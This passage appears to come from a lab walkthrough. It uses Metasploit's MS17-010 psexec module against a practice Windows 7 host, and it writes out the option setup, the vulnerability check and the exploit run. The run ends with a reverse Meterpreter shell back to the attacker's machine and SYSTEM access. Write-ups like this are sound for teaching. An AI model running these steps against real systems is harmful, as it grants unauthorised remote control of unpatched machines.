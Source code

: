```Output
```

If **REQUIRED** is set to YES, that means for the exploit to actually work, you must have that option properly configured.
**In the option above, there are 2 required:**
- **RHOSTS** - You must have the IP of the target
- **LHOST** - IP of the ATTACK Host, for us, it will be our tun0 interface. 
```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```
RHOSTS is set to the machine we are attacking 
LHOST is set to our machine we are attacking with 

**Before we can finally attack, we must ensure the server is vulnerable**
```Input
msf6 exploit(windows/smb/ms17_010_psexec) > check
```
```Output
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```
**While the *check* function will not always work, here it shows the website is indeed vulnerable**

**To finally run the exploit, we run this:**
```Input
msf6 exploit(windows/smb/ms17_010_psexec) > exploit
```
```Output

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
```
**The exploit used was able to give us access to the machine, and now are the admin user**
